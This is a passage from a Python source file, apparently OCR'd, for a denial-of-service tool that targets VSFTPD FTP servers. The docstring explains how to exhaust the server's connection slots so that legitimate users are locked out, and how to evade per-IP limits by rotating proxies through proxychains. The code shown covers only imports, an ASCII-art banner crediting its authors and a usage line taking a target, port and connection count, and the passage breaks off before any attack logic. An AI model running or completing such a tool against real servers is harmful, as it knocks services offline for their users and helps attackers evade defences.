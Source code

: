 VSFTPD only lets a certain amount of connections to be made to the server, so, by repeatedly making new connections                                                                                                                          to the server,                                                                                                                                                                                                                               
you can block other legitimite users from making a connection to the server, if the the connections/ip isn't limited                                                                                                                         .                                                                                                                                                                                                                                            
(if it's limited, just run this script from different proxies using proxychains, and it will work)                                                                                                                                           
"""                                                                                                                                                                                                                                          
                                                                                                                                                                                                                                             
import socket                                                                                                                                                                                                                                
import sys                                                                                                                                                                                                                                   
import threading                                                                                                                                                                                                                             
import subprocess                                                                                                                                                                                                                            
import time                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                             
banner = """                                                                                                                                                                                                                                 
._________________.                                                                                                                                                                                                                          
|     VS-FTPD     |                                                                                                                                                                                                                          
|      D o S      |                                                                                                                                                                                                                          
|_________________|                                                                                                                                                                                                                          
|By XYN/DUMP/NSKB3|                                                                                                                                                                                                                          
|_|_____________|_|                                                                                                                                                                                                                          
|_|_|_|_____|_|_|_|                                                                                                                                                                                                                          
|_|_|_|_|_|_|_|_|_|                                                                                                                                                                                                                          
                                                                                                                                                                                                                                             
"""                                                                                                                                                                                                                                          
usage = "{} <TARGET> <PORT(DEFAULT:21> <MAX_CONNS(DEFAULT:50)>".format(sys.argv[0])                                                                                                                                                          